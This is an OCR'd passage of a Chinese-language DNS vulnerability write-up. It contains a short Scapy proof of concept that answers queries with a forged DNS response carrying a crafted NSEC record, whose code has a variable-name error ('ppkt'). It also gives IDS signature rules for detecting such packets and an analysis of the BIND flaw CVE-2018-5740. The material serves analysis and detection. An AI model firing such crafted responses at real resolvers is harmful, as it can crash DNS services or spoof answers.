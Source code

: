 sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

sock.bind(('127.0.0.1', 53))

data, addr = sock.recvfrom(1024)

pkt = DNS(data)

attack = DNS(id=pkt[DNS].id, qr = 1, aa=1,\

 qd=pkt[DNS].qd,\

 an=DNSRR(rrname=ppkt[DNSQR].qname, ttl=10, rdata='8.8.8.8')\

 /DNSRRNSEC(rrname='bad.fr', typebitmaps=RRlist2bitmap([0])))

sock.sendto(str(attack), addr)

##### 规则建议

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image070.jpg)

特征1： 53端口response

特征1： 偏移4位匹配 \x00\x01\x00\x00\x00\x01

       说明: \x00\x01----Questions: 1

         \x00\x00----Answer RRs: 0

         \x00\x01----Authority RRs: 1

特征2： \x00\x2F + 偏移10位 +\x20 + 偏移31位 + 匹配（\x80|\x40|\x20|\x10|\x01|\x08）（bitmask）

说明：\x00\x2F---- Type: NSEC (Next Secure) (47)

      \x20---- Next Domain Name: <Root>

      \x80|\x40|\x20|\x10|\x01|\x08----RR type in bit map:

![](file:///C:/Users/zhukeyu/AppData/Local/Temp/msohtmlclip1/01/clip_image072.jpg)

特征1： 53端口

特征1： 偏移4位匹配 00 01 00 00 00 01 

特征2： 00 2F + 偏移10位 + 06 + 偏移5位 + 40（bitmap :OPT）

说明参考上一条规则。

#### CVE-2018-5740

##### 漏洞分析

ISC BIND中存在拒绝服务漏洞。该漏洞是由于在处理客户端DNAME或任何查询时，以及在服务器上配置了deny-answer-alias时，对来自上游DNS服务器的dnamerecord处理不当造成的。来自上游DNS服务器的响应由函数answer response()处理，该函数首先将查询名称与答案部分中每个提供的记录中的名称进行比较。在给定记录中的Owner名称与查询名称相同的情况下，answer response()确认该记录类型与查询类型匹配，即查询类型是“ANY”，或者记录类型是CNAME。在ANY或DNAME查询的情况下，允许拥有与查询名称相同的Owner名称的DNAME记录。

然后answer response()将通过调用answertarget allowed()函数来确认BIND配置允许DNAME目标。Is answertarget allowed()将首先检查是否为相关视图配置了deny-answer-aliasesis，如果配置了，将尝试分离请求名称的前缀部分。为了确定组成前缀的标签数量，计算DNAME记录中查询名和Owner名之间标签数量的差异。在这种情况下，标签的数量是相同的，如果查询的类型是ANY或DNAME，一个0的值将提供给后续调用dns name split()作为后缀标签参数，触发一个REQUIRE断言，确保后缀标签参数大于0并导致named终止。
